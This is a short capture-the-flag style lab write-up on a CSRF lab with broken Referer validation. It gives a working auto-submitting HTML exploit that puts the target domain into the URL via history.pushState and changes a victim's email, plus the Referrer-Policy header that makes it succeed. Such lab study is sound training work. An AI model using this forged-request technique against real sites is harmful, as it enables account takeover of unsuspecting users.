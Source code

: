 # Lab: CSRF with broken Referer validation

- The application is validating requests based on `Referer` header.
- The application is only checking its domain name in the `Referer`.
- Exploit ->

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?ac9e1fd51fefbc3ac0be0a12000400c0.web-security-academy.net')</script>
    <form action="https://ac9e1fd51fefbc3ac0be0a12000400c0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- However, it still does not work due to referrer policies.
- Resonse Header ->

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```

